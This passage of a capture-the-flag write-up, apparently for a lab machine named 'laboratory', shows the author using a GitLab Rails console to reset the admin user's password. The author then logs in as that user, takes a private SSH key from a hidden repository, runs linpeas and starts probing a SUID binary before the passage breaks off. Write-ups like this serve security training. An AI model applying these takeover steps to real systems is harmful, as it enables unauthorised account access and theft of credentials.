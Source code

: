We see there are 3 users, `sirius` which is me, `seven` and `dexter`.

Let's see who's the admin:

```terminal
irb(main):004:0> User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>
```

It's `dexter`, now let's change his password.

```terminal
irb(main):018:0> u = User.find(1)
=> #<User id:1 @dexter>
irb(main):019:0> u.password = 'pass123pass'
=> "pass123pass"
irb(main):020:0> u.password_confirmation = 'pass123pass'
=> "pass123pass"
irb(main):021:0> u.save
Enqueued ActionMailer::DeliveryJob (Job ID: 0e9f90a3-2937-429a-b195-5740f5f22dd2) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fe067fa9110 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
```

Now let's login as `dexter`.

![](9.png)

We see a new repository that was hidden before, let's check it out.

![](10.png)

We find a dexter directory with a .ssh, and inside that we can find a private ssh key.

We copy the key and ssh as dexter.

![](11.png)

### root

Let's run linpeas.

![](12.png)

We found a file called `/usr/local/bin/docker-security` with SUID permission.

Let's investigate the file.

```terminal
dexter@laboratory:/tmp$ file /usr/local/bin/docker-security                                                                                                   
/usr/local/bin/docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Bu
ildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped                             
dexter@laboratory:/tmp$ strings /usr/local/bin/docker-security                                                                                                
                                                                                                                                                              
Command 'strings' not found, but can be installed with:                                                                                                       
                                                                                                                                                              
apt install binutils                                                                                                                                          
Please ask your administrator.                            
```
